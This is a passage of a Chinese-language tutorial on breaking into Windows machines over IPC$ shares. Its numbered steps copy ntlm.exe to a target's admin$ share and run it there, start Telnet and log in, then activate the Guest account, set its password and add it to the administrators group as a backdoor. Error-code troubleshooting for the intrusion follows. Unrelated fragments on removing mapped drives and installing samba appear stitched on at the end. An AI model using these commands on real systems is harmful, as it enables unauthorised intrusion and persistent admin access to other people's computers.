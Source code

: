 7.C:\>copy ntlm.exe \\127.0.0.1\admin$ 
用Copy命令把ntlm.exe上传到主机上（ntlm.exe也是在《流光》的Tools目录中）。 

8. C:\WINNT\system32>ntlm 
输入ntlm启动（这里的C:\WINNT\system32>指的是对方计算机，运行ntlm其实是让这个程序在对方计算机上运行）。当出现"DONE"的时候，就说明已经启动正常。然后使用"net start telnet"来开启Telnet服务！ 

9. Telnet 127.0.0.1，接着输入用户名与密码就进入对方了，操作就像在DOS上操作一样简单！(然后你想做什么?想做什么就做什么吧,哈哈) 

为了以防万一,我们再把guest激活加到管理组 
10. C:\>net user guest /active:yes 
将对方的Guest用户激活 

11. C:\>net user guest 1234 
将Guest的密码改为1234,或者你要设定的密码 

12. C:\>net localgroup administrators guest /add 
将Guest变为Administrator^_^(如果管理员密码更改，guest帐号没改变的话，下次我们可以用guest再次访问这台计算机) 

另外,你也可以根据返回的错误号分析原因： 

错误号5，拒绝访问：很可能你使用的用户不是管理员权限的，先提升权限； 
错误号51，Windows无法找到网络路径：网络有问题； 
错误号53，找不到网络路径：ip地址错误；目标未开机；目标lanmanserver服务未启动；目标有防火墙（端口过滤）； 
错误号67，找不到网络名：你的lanmanworkstation服务未启动或者目标删除了ipc$； 
错误号1219，提供的凭据与已存在的凭据集冲突：你已经和对方建立了一个ipc$，请删除再连； 
错误号1326，未知的用户名或错误密码：原因很明显了； 
错误号1792，试图登录，但是网络登录服务没有启动：目标NetLogon服务未启动； 
错误号2242，此用户的密码已经过期：目标有帐号策略，强制定期要求更改密码

 

​     在使用这种方法屏蔽网络映射功能时，只需要先打开系统的运行对话框，并在其中执行“cmd”字符串命令，将系统界面切换到MS-DOS命令行状态；接着在DOS提示符下执行“net  use  x：/del”字符串命令，就能将网络磁盘分区为“X”的网络映射连接断开了，要想快速地将本地计算机中所有的网络映射连接断开的话，只需要执行“net  use * /del”字符串命令就可以了。







https://zhidao.baidu.com/question/71884044.html



https://www.cnblogs.com/chinahbzm/articles/1423875.html



http://www.makaidong.com/%E8%84%9A%E6%9C%AC%E4%B9%8B%E5%AE%B6/51523.shtml





https://www.xp.cn/b.php/44353.html



```
sudo apt install samba-common-bin
```

